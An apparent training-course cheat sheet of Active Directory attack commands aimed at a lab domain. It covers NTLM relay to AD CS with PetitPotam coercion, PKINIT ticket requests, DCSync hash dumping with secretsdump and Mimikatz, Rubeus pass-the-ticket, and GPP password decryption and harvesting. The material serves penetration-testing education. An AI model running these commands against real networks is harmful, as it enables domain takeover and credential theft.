 | Command | Description |
|---------|-------------|
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an NTLM relay by specifying the web enrollment URL for the Certificate Authority host. Performed from a Linux-based host. |
| `git clone https://github.com/topotam/PetitPotam.git` | Used to clone the PetitPotam exploit using git. Performed from a Linux-based host. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | Used to execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.225) and the target Domain Controller (172.16.5.5). Performed from a Linux-based host. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64 certificate> = dc01.ccache` | Uses gettgtpkinit.py to request a TGT ticket for the Domain Controller (dc01.ccache) from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host. |
| `klist` | krb5-user command used to view the contents of the ccache file. Performed from a Linux-based host. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | Used to submit TGS requests using getnthash.py from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from NTDS.dit using a DCSync attack and a captured hash (-hashes). Performed from a Linux-based host. |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Uses Rubeus to request a TGT and perform a pass-the-ticket attack using the machine account (/user:ACADEMY-EA-DC01$) of a Windows target. Performed from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt` | Performs a DCSync attack using Mimikatz. Performed from a Windows-based host. |

## Miscellaneous Misconfigurations

| Command | Description |
|---------|-------------|
| `Import-Module .\SecurityAssessment.ps1` | Used to import the module SecurityAssessment.ps1. Performed from a Windows-based host. |
| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5` | Used to resolve all records in a DNS zone over LDAP from a Linux-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5 -r` | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host. |
| `Get-DomainUser * | Select-Object samaccountname,description` | PowerView tool used to display the description field of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the PASSWD_NOTREQD setting of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |

## Group Policy Enumeration & Attacks

| Command | Description |
|---------|-------------|
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE` | Tool used to decrypt a captured group policy preference password from a Linux-based host. |
| `crackmapexec smb -L | grep gpp` | Locates and retrieves a group policy preference password using CrackMapExec, then filters the output using grep. Performed from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the SYSVOL share of a Windows target using CrackMapExec from a Linux-based host. |
| `Get-DomainGPO | select displayname` | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host. |
| `Get-GPO -All | Select DisplayName` | PowerShell cmdlet used to enumerate GPO names. Performed from a Windows-based host. |
| `$sid=Convert-NameToSid "Domain Users"` | Creates a variable called $sid that is set equal to the Convert-NameToSid tool and specifies the group account Domain Users. Performed from a Windows-based host. |
| `Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}` | PowerView tool that is used to check if the Domain Users (eq $sid) group has any rights over one or more GPOs. Performed from a Windows-based host. |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532` | PowerShell cmdlet used to display the name of a GPO given a GUID. Performed from a Windows-based host. |
